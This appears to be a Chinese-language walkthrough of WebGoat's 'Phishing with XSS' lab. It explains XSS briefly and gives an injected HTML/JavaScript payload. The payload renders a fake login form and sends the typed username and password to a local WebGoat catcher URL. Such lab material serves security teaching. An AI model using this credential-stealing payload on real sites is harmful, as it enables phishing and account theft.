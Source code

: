 





#### XSS:Phishing with XSS

- XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

- 向表单提交下列代码，实现反射型xss钓鱼

```html
#!html
</form>
  <script>
    function hack(){ 
    XSSImage=new Image;
    XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";
    alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);
} 
  </script>
<form name="phish">
<br>
<br>
<HR>
  <H2>This feature requires account login:</H2>
<br>
  <br>Enter Username:<br>
  <input type="text" name="user">
  <br>Enter Password:<br>
  <input type="password" name = "pass">
<br>
  <input type="submit" name="login" value="login" onclick="hack()">
</form>
<br>
<br>
<HR>
```

- 提交前界面
